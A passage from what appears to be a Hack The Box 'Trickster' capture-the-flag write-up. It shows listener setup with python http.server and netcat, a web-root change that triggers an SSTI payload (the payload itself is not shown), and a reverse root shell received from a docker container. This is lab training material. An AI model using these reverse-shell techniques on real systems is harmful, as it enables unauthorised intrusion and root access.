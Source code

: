 ### HTTP Server on 172.17.0.1

Setting up a listener on 172.17.0.1 which is the docker host. 172.17.0.2 should have access to 172.17.0.1.

```
james@trickster:~$ python3 -m http.server 9999
Serving HTTP on 0.0.0.0 port 9999 (http://0.0.0.0:9999/) ...
```

### Netcat on 172.17.0.1

Setting up listener on 172.17.0.1 as 172.17.0.2 should be able to reach it. Setting up a listener on my local machine was not a good idea as the 172.17.0.2 docker image may not have the network access to reach it.

```
james@trickster:/tmp$ nc -lvnp 8888
Listening on 0.0.0.0 8888
```

### HTTP Server on 10.10.14.3

For this part I setup a listener to handle the `get://` request configured in the event. The docker container might not have access to `10.10.14.3` however this was a good stage to test it further.

```
┌──(kali㉿kali)-[~/hackthebox/trickster/www]
└─$ python3 -m http.server 80
Serving HTTP on 0.0.0.0 port 80 (http://0.0.0.0:80/) ...
```

# Modifying Root Web Directory

To trigger the event it will be necessary to modify the webs root directory so the application detects a change. The below snippet shows the steps taken to do so.

```
james@trickster:~$ echo test > test.html
```

# Reverse Shell Obtained

Once the event triggered it triggered the SSTI payload with the reverse shell. Call back received and reverse shell obtained on the docker container.

```
james@trickster:/tmp$ nc -lvnp 8888
Listening on 0.0.0.0 8888
Connection received on 172.17.0.2 54366
root@ae5c137aa8ef:/app# hostname
hostname
ae5c137aa8ef
root@ae5c137aa8ef:/app# id
id
uid=0(root) gid=0(root) groups=0(root)
root@ae5c137aa8ef:/app# 
```
